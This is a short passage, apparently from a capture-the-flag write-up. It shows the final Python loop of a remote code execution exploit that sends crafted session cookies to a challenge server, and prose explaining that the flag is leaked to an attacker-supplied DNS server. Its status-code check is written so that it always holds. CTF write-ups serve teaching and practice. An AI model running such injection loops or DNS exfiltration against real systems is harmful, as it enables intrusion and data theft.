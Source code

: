 ```py
                continue

    trigger = generate_rce("", trigger=True)
    while True:
        time.sleep(1)
        try:
            resp = requests.get(f"{CHALLENGE_URL}/set", cookies={"session": trigger})
            if resp.status_code != 302 or resp.status_code != 200:
                break
            else:
                requests.get(f"{CHALLENGE_URL}/")
                continue
        except:
            continue    
```

This is the final logic that causes the injections, notice how we check for status codes `302` and `200`, that is done because the server craches after a successful injection, so we need to keep track of when the server has accepted our payload correctly before moving to the next one.

Running the sequence of payloads correctly will send us the flag in the dns server we provided.